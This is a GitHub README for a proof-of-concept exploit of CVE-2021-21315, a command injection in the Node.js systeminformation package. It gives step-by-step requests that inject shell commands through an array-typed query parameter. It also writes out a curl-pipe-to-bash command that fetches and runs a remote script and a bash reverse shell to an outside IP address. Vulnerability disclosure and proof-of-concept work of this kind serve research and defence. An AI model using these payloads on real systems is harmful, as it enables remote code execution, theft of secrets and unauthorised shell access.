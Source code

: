 # CVE-2021-21315-systeminformation
This is Proof of Concept for [CVE-2021-21315](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-21315) which affects The System Information Library for Node.JS (npm package "systeminformation"). [npmjs.com/systeminformation](https://www.npmjs.com/package/systeminformation)

"be sure to check or sanitize service parameters that are passed to si.inetLatency(), si.inetChecksite(), si.services(), si.processLoad() ... do only allow strings, reject any arrays. String sanitation works as expected. "

Because it's not well explained vulnerability (in my opinion), i decided to code small app basing on vulnerable version of systeminformation.
The PoC contains:
1) Test app made in Node.js, using express and vulnerable systeminformation
2) Simple testing payload to create .txt file on affected machine

Steps to reproduce:
1) Run application on Linux server environment
2) Make GET request to site.com/api/getServices?name=nginx (nginx is just example)
![obraz](https://user-images.githubusercontent.com/72838191/109575455-223c8d00-7af2-11eb-92fa-f242d0e74947.png)
3) Now try to send request like this: yoursite.com/api/getServices?name=$(echo -e 'Sekurak' > pwn.txt)
![obraz](https://user-images.githubusercontent.com/72838191/109575807-d3dbbe00-7af2-11eb-8c83-5129e5cdb762.png)

This will fail, because of string sanitization:
![obraz](https://user-images.githubusercontent.com/72838191/109575891-fcfc4e80-7af2-11eb-9b9d-86a5cae803f6.png)

As said in CVE details "sanitization works as expected, reject any arrays [...]"

4) Now try to send request: yoursite.com/api/getServices?name[]=$(echo -e 'Sekurak' > pwn.txt)
![obraz](https://user-images.githubusercontent.com/72838191/109576285-cbd04e00-7af3-11eb-8ac3-2432e23721e6.png)
This time, if you take a look at "name" value, it was not sanitized - success ! Let's see if command was executed

![obraz](https://user-images.githubusercontent.com/72838191/109576497-21a4f600-7af4-11eb-85a1-3610c25edbee.png)

Success! Our command got executed. 
Of course no one cares about "pwn.txt", but potential attacker can:
1) Upload internal files, like index.js (core of our application, with potential api keys, database connection string and others) or other
2) Download and execute scripts - curl -s http://server/path/script.sh | bash /dev/stdin arg1 arg2
3) Reverse shell - bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
4) Kill processes (you can kill our test node application aswell)
5) Even more evil things....

"Command injection" sounds innocent, but it may have huge impact if certain conditions are meet

Problem was fixed in version 5.3.1 of "systeminformation"
Credits to https://www.huntr.dev/users/EffectRenan (He found vulnerability, however in my opinion, his "Poc" did not show real world impact)

Also, do not heist to use this PoC in some CTF's but would be cool if you will credit author of finding - EffectRean and poc creator - me, cheers!

# Disclaimer
This project can only be used for educational purposes. Using this software against target systems without prior permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
